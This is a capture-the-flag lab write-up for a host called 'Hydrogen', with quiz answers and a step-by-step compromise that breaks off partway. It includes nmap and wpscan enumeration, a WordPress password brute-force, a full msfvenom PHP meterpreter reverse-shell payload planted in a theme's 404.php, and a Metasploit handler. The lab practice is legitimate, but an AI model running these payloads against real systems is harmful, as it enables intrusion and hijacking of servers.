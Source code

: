 # HYDROGEN

__PROBLEM__

The ip address was 192.168.0.10

__SOLUTION__

So let's start with NMAP tools to the ip address 
`nmap -A -v 192.168.0.10`
and we got the following output
```
Starting Nmap 7.60 ( https://nmap.org ) at 2019-03-15 03:16 UTC
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.2.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp           472 Jan 19 12:36 email.txt
|_-r--------   1 ftp      ftp            39 Jan 18 16:31 flag1.txt
|_ftp-bounce: server forbids bouncing to low ports <1025
22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey:
|   1024 24:04:bf:3c:02:c8:ac:cd:5e:41:e8:5e:c8:47:96:76 (DSA)
|   2048 28:fd:24:7b:a5:9a:b6:62:ad:d6:3f:b0:4e:7e:ea:e9 (RSA)
|_  256 eb:b8:37:33:af:eb:a2:a7:4a:84:27:6e:35:65:d4:a6 (ECDSA)
80/tcp open  http    nginx 1.2.1
| http-methods:
|_  Supported Methods: GET HEAD
| http-robots.txt: 1 disallowed entry
|_/phpmyadmin
|_http-server-header: nginx/1.2.1
|_http-title: Hydrogen Co
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 03:16
Completed NSE at 03:16, 0.00s elapsed
Initiating NSE at 03:16
Completed NSE at 03:16, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.29 seconds
```

__PROBLEM__

How many services running on Hydrogencorp

__HINT__

Give me a sum of running services on hydrogencorp.

__ANSWER__

_3_

__PROBLEM__

On the port for file transfer service, what is the version for the application?

__HINT__

Give me the application version number. (e.g 1.2.6)

__ANSWER__

_1.2.6_

__PROBLEM__

What is the software name running on port 80?

__HINT__

Give me the software name running on port 80 on this host. (e.g. IIS)

__ANSWER__

_nginx 1.2.1_

__PROBLEM__

What is the software and version running on port 22?

__HINT__

Give me the software and version running on port 22. (e.g. ProFTPD and 1.4.5

__ANSWER__

_OpenSSH and 6.0p1_

__PROBLEM__

What is the domain name of the application?

__HINT__

Find the domain name of this host. (e.g. example.com)

__ANSWER__

There are also email.txt in ftp service, we check the content and we can see the domain.
```To: John <john@hydrogen.co>
From: Alice <alice@ymail.com>
Date: 19 August 2016
Subject: Applicant for Junior System Administration

---------------------------------------------------

Dear Hiring Manager,

I interested to apply the posting job on your blog.
If I can provide you with any further information on
my background and qualifications, please let me know.

I look Forward to hearing from you. Thank you for your
consideration.

Sincerely,

Alice
alice@ymail.com
```

_hydrogen.co_

__Cont..__

got the domain and the ip, so map the ip address 192.168.0.10 with hydrogen.co at `/etc/hosts`

open hydrogen.co in the browser and get the page.. scrolling the source code and get following snippet

`<!-- <a class="nav-link" href="/wordpress/">Blog</a> -->`

go to the link `hydrogen.co/wordpress` and get the login page.

so the next tool is WPSCAN for the website with the following code..

`wpscan --url hydrogen.co/wordpress --enumerate u` and got the user john 

```
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <==========================================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] John
 | Detected By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] john
 | Detected By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
 ```
 
 brute force the wordpress with rockyou.txt `wpscan --url hydrogen.co/wordpress --enumerate u username john -P rockyou.txt`
 
 ```
 [+] Performing password attack on Xmlrpc Multicall against 2 user/s
[SUCCESS] - John / justin
[SUCCESS] - john / justin
Progress Time: 00:00:03 <                                                            > (1 / 28689)  0.00%  ETA: 26:37:34
[i] Valid Combinations Found:
 | Username: John, Password: justin
 | Username: john, Password: justin

[+] Finished: Fri Mar 15 04:20:18 2019
```

login to the wordpress.. create a payload to get into shell of the ip with this code 

`msfvenom -p php/meterpreter/reverse_tcp LHOST=my ip :P LPORT=4444 -f raw`

and got the payload

```
/*<?php /**/ error_reporting(0); $ip = 'my ip :P'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

setup the payload by paste the payload on wordpress theme 404.php 

listen to the payload through metasploit with this code 

```
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST my ip :P
set LPORT 4444
exploit
```

go to the browser link at `http://hydrogen.co/wordpress/wp-content/themes/twentythirteen/404.php` and got the shell..

use `cd /` then `find -name "*.txt"` got the other flag directory 

```
./root/flag4.txt
./home/john/flag3.txt
./usr/share/nginx/www/wordpress/flag2.txt
```

found `./usr/share/nginx/www/robots.txt` which is interesting ofcourse..













